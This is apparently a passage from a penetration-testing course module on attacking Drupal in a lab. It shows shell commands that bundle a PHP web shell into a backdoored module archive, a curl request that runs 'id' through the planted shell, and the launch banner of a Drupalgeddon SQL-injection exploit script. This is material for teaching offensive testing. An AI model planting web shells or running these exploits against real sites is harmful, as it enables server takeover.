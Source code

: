 ``` shell-session
[!bash!]$ mv shell.php .htaccess captcha
[!bash!]$ tar cvf captcha.tar.gz captcha/

captcha/
captcha/.travis.yml
captcha/README.md
captcha/captcha.api.php
captcha/captcha.inc
captcha/captcha.info.yml
captcha/captcha.install

<SNIP>
```

![https://academy.hackthebox.com/storage/modules/113/module_installed.png](https://academy.hackthebox.com/storage/modules/113/module_installed.png)

``` shell-session
[!bash!]$ curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Leveraging Known Vulnerabilities

## Drupalgeddon

``` shell-session
[!bash!]$ python2.7 drupalgeddon.py 

  ______                          __     _______  _______ _____    
 |   _  \ .----.--.--.-----.---.-|  |   |   _   ||   _   | _   |   
 |.  |   \|   _|  |  |  _  |  _  |  |   |___|   _|___|   |.|   |   
 |.  |    |__| |_____|   __|___._|__|      /   |___(__   `-|.  |   
 |:  1    /          |__|                 |   |  |:  1   | |:  |   
 |::.. . /                                |   |  |::.. . | |::.|   
 `------'                                 `---'  `-------' `---'   
  _______       __     ___       __            __   __             
 |   _   .-----|  |   |   .-----|__.-----.----|  |_|__.-----.-----.
 |   1___|  _  |  |   |.  |     |  |  -__|  __|   _|  |  _  |     |
 |____   |__   |__|   |.  |__|__|  |_____|____|____|__|_____|__|__|
 |:  1   |  |__|      |:  |    |___|                               
 |::.. . |            |::.|                                        
 `-------'            `---'                                        
                                                                   
                                 Drup4l => 7.0 <= 7.31 Sql-1nj3ct10n
                                              Admin 4cc0unt cr3at0r

			  Discovered by:

			  Stefan  Horst
                         (CVE-2014-3704)

                           Written by:

                         Claudio Viviani

                      http://www.homelab.it

                         info@homelab.it
                     homelabit@protonmail.ch

                 https://www.facebook.com/homelabit
```